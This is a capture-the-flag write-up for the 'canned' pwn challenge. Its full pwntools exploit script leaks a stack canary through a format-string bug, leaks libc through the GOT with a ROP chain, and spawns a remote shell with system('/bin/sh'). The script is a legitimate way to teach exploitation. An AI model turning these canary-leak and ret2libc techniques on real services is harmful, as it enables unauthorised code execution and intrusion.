 ## boot2root CTF: canned [pwn]
![](canned_desc.png)

#### There were two vulnerabilities for this challenge, the first one being a format string vuln where unsanitized input is passed to printf and the second being a stack buffer overflow. We couldn't simply control the instruction pointer since a stack canary is present. 

#### The plan then becomes clear; we need to leverage the format string vulnerability to print out the value of the stack canary which is stored somewhere in the stack, proceed to fill out the buffer and bypass the stack canary check to perform a system('/bin/sh') ropchain.

```python
from pwn import *

#p = process('./canned')
binary = ELF('./canned', checksec = False)
breakpoints = ['break *main + 137', 'break *main + 211']
#gdb.attach(p.pid, gdbscript = '\n'.join(breakpoints))
p = remote("35.238.225.156", 1007)

#: leak canary
print(p.recvuntil('please\n'))
p.sendline('AAAABBBB %15$p')
canary_leak = int(p.recvuntil('\n').split()[1], 16)
print('[*] canary_leak: ' + hex(canary_leak))
print(p.recv())

#: ROP
pop_rdi = 0x00000000004012bb
ret = 0x0000000000401016

exploit = cyclic(24)
exploit += p64(canary_leak)
exploit += cyclic(8)
exploit += p64(pop_rdi)
exploit += p64(binary.got['setvbuf'])
exploit += p64(binary.symbols['puts'])
exploit += p64(binary.symbols['main'])
p.sendline(exploit)

print(p.recvuntil('bye\n'))
setvbuf_leak = u64(p.recvuntil('\n').split()[0].ljust(8, '\x00'))
print(p.recvuntil('please\n'))
print('[*] setvbuf_leak: ' + hex(setvbuf_leak))

p.sendline("AAAABBBB %15$p")

#: third stage
libc = ELF('./libc6_2.27-3ubuntu1.3_amd64.so', checksec = False)
libc_base = setvbuf_leak - libc.symbols['setvbuf']
print('[*] libc_base: ' + hex(libc_base))

exploit = cyclic(24)
exploit += p64(canary_leak)
exploit += cyclic(8)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(libc_base + libc.search('/bin/sh').next())
exploit += p64(libc_base + libc.symbols['system'])

p.sendline(exploit)
p.interactive()
```
![](canned_flag.png)